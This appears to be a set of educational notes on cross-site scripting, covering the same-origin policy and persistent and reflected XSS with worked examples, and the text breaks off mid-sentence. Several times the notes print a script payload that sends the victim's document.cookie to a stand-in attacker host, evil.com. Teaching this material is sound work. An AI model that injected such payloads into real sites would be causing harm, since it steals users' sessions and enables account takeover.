 # XSS
XSS is a code injection attack which allows the attacker to execute malicious JAVASCRIPT in another user's browser

- JS is a client side scripting  language where code runs in your browser
- JS can be written inside HTML files inside HTML <script> tag
- Code within this <script> tags is executed in the context of the site

The web's security model is based on the same origin policy
Origin refers to the combination of 
- 1 The url scheme eg http or https
- 2 the hostname e.g google
- 3 the port number, typically 80 for public sites

- This basically means that code (HTML, CSS, JS) from http://somesite.com can only access the data of http://somesite.com
which means that in theory http://evil.com cannot access data from any site other than http://evil.com!
- The key thing here is how do we define code from http://somesite.com.
- This is HTML, CSS , JS which served from that server
- XSS is all about making the browser believe that malicious code came from a trusted site!

- JS runs in a very restricted environment on your browser and it has limited access to that user's operating system and files
- Access cookies which usually contain session information - this can be used to impersonate a user
- send XmlHTTP Requests with any content to any destination
- Edit the DOM of the current website to anything it wants
- JS in modern HTML5 browsers can access the user's geolocation, webcam, certianfiles on user computer
- Remember all this while you believe that you are ona trusted site
- combining the capability of JS and socail engineering hacker can steel a lot.

Phising can happen with this
- Insert a form into DOM of the trusted page and direct the results to be submitted to the attackers server

http://excess-xss.com - great resource to learn all about XSS

#### Example
- 3 actors in XSS attack = Attacker, website, victim
Attacker
- XSS attack targets website not a specific user
- Any user of that website can be compromised
- Name of attacker's website http://www.evil.com
- Attacker seeks: Access to victim's session ID sent via cookies
- script attacker wants to inject
```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```
- the cookie information from the current site is apssed as a query parameter to the malicious site.
- evil site can record this info and use it in further attacks.
Website
- name of trusted website: http://www.trustedsite.com
- the website is vulnerable to XSS attacks
Victim
- any user of the trusted website
- willing to handover sensitive information to the site
- so how can the attacker inject this script into a trusted website? = unvalidated and unsanitized user input

Scenario
- lets say the trusted site allows users to input comments - on anything
<input> name
<textbox> comment
 <button> submit
- the forum page on the trusted site displays all comments which have been added.
- whatever the users write the exact same comment without modifications is shown.
- Now attacker came to trusted site and he entered comment as below and hit submit button

```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```

- Now, this input is written directly to the websites comment database(user input has not cleaned in anyway (UNVALIDATED & UNSANITIZED USER INPUT).
- Now our victim visits the comments page of the trusted site
- Boom !!  so what just happened? = victims session ID has gone to evil.com

### Types of XSS
3 types
- 1 Persistent XSS
- 2 Reflected XSS
- 3 DOM Based XSS

##### Persistent XSS
- The malicious script originates from the website's database
- the injected <script> has been persisted amongst other valid data in the website's storage.
- The comment exaple we just saw is Persistent XSS

##### Reflected XSS
- the malicious script is part of the victims request to the website.
- the website then reflects this string back to victim.
lets say the website is a serach page which displays the search query to screen along with the results (like google search)
- eg: you searhced for cute puppies.
- The search term has been rendered on the screen
- ``` http://www.trustedsearch.com?query=cute puppies ```
- this would initiate the search on the servers and return results to the user
- Attacker sends a link chekout the cute puppies on this page where 'this' is hyperlinked to 
``` http://www.trustedsearch.com?query=<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script> ```

The victim

   
   
   




